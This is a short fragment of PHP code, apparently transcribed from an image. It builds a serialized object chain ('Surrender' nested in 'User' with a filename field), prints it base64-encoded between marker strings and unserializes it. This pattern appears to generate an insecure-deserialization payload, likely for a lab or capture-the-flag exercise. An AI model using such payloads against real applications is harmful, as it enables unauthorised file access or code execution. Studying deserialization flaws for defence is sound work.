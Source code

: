 		  $surrender = new Surrender();
		  $surrender -> file = [
		      "filename" => $filerobot
		  ];
		  
		  $user = new User();
		  $user -> name = $surrender;
		  echo "sta"."rt" . base64_encode(serialize($user)) . "s" . "top";
		  unserialize(serialize($user));
		  ```